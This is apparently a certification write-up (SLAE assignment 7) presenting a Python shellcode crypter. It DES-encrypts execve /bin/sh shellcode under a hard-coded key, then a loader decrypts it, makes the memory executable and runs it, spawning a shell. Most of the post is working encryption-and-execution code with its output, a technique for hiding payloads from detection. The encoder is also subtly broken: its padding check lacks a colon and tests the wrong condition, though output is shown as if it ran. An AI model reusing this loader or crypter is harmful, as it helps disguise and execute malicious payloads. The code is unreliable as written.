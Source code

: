 **Assignment 7**

Create a shellcode crypter
 
For this last SLAE assignment, I’ve created a shellcode crypter using the DES encryption using the pyCrypto library in python
	pyCrypto library is a collection of both secure hash functions (such as SHA256 and RIPEMD160), and various encryption algorithms (AES, DES, RSA, ElGamal, etc.)

Refer:https://pypi.org/project/pycrypto/

**Methodology**

	>Cryptor 

		DES Encryption
		Refer : https://en.wikipedia.org/wiki/Data_Encryption_Standard
		its a symmetric key encryption mechanism, due to the short keylength (56 bits) , its not very commonly used.

		For Cryptor a execve /bin/sh shell code is used


		Since the DES Encrypiton process ciphertext in a block of 8 , if the length of the shellcode is not a multiple of 8 , x90 is padded
		x90 , NOP doesnt really do anything ie xchg eax, eax , which wont cause a problem in our shellcode

		Crypter schema is achived using a python script which, takes a shellcode (execve /bin/sh) and padd x90 to make the shellcode a multiple of x90 and use pyCrypto library to encrypt the shellcode using DES
		the 8 bit key used is "aaaaaaaa"

			toor@ubuntu:~/Desktop/slae/Assignments/7$ cat encoder.py                                                                                             [12/288]
			#!/bin/python

			from Crypto.Cipher import DES
			import socket
			import sys
			import urllib


			shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"  #/bin/sh shellcode
			print(shellcode)

			print(" ")
			print("Length of the shellcode is "+str(len(shellcode)))
			print("Original Shellcode ")

			enc1 = ""

			for i in bytearray(shellcode):
 				enc1+="0x"
 				enc1+= "%02x," %(i & 0xff)

			print("----------------------")
			print(enc1.rstrip(','))

			if ((len(shellcode)/8)==0)                                      #check if padding is needed
 				print("boo no padding is required")
			else:
 				padding = 8 * ((len(shellcode)/8)+1) - len(shellcode)
 				shellcode = shellcode + "\x90"*padding                  #appending x90 to make the shellcode length a multiple of 8
 			print("Padding needed , appended  "+str(padding)+"""  \\x90 bytes""")         

			print(len(shellcode))

			cipher = DES.new("aaaaaaaa")                                    #DES encryption key
			encrypted_data = cipher.encrypt(shellcode)											   	#Encryption process

			enc2 = ""
			output= ""

			for i in bytearray(encrypted_data):
		 		enc2+="0x"
	 	 		enc2+= "%02x," %(i & 0xff)
 		 		output += "\\x"
  		 		output += '%02x'% i

			print("Encrypted Shellcode")
			print("----------------------")
			print(enc2.rstrip(','))																							#printing Encrypted shellcode

			print(output)

			toor@ubuntu:~/Desktop/slae/Assignments/7$



	>Decrypter

		Decrypter takes the DES encrypted shellcode and decrypt the shellcode using the same key(symmetric encryption) and run the shellcode


			toor@ubuntu:~/Desktop/slae/Assignments/7$ cat decoder.py
			#!/bin/python

			from Crypto.Cipher import DES
			import socket
			import sys
			from ctypes import CDLL, c_char_p, c_void_p, memmove, cast, CFUNCTYPE
			import os
			
			encrypted_data = "\x9a\xa9\x7d\x8b\xc4\x0f\x1a\xca\xeb\x74\xae\x62\x66\x51\x01\xdd\xc2\x77\x52\xc5\x55\xb9\xdf\xe9\xb0\xbe\xff\xca\x98\x45\xc1\x9a"  
											#DES Encrypted shellcode
			cipher = DES.new("aaaaaaaa")																						#DES decryption key


			shellcode = cipher.decrypt(encrypted_data)                     	#DES Decryption



			libc = CDLL('libc.so.6')																						# Passing control on to the shellcode using libc.so
			#shellcode = shellcode.replace('\\x','').decode('hex')
			sc = c_char_p(shellcode)
			size = len(shellcode)
			addr = c_void_p(libc.valloc(size))
			memmove(addr, sc, size)
			libc.mprotect(addr, size, 0x7)
			run = cast(addr, CFUNCTYPE(c_void_p))
			run()
			toor@ubuntu:~/Desktop/slae/Assignments/7$


**Practical**

Lets take the execve /bin/sh shellcode and use "aaaaaaaaa" key to encrypt using DES

	toor@ubuntu:~/Desktop/slae/Assignments/7$ python encoder.py
	1▒Ph//shh/bin▒▒▒̀

	Length of the shellcode is 25
	Original Shellcode
	----------------------
	0x31,0xc0,0x50,0x68,0x2f,0x2f,0x73,0x68,0x68,0x2f,0x62,0x69,0x6e,0x89,0xe3,0x50,0x89,0xe2,0x53,0x89,0xe1,0xb0,0x0b,0xcd,0x80
	Padding needed , appended  7  \x90 bytes
	32
	Encrypted Shellcode
	----------------------
	0x9a,0xa9,0x7d,0x8b,0xc4,0x0f,0x1a,0xca,0xeb,0x74,0xae,0x62,0x66,0x51,0x01,0xdd,0xc2,0x77,0x52,0xc5,0x55,0xb9,0xdf,0xe9,0xb0,0xbe,0xff,0xca,0x98,0x45,0xc1,0x9a
	\x9a\xa9\x7d\x8b\xc4\x0f\x1a\xca\xeb\x74\xae\x62\x66\x51\x01\xdd\xc2\x77\x52\xc5\x55\xb9\xdf\xe9\xb0\xbe\xff\xca\x98\x45\xc1\x9a
	toor@ubuntu:~/Desktop/slae/Assignments/7$


Lets take the encrypted payload and decrypt it using the same DES Key 

	toor@ubuntu:~/Desktop/slae/Assignments/7$ python decoder.py
	$ id
	uid=1000(toor) gid=1000(toor) groups=1000(toor),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare)
	$


	Works like a charm 


**Github Repo**

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student ID: SLAE-1509
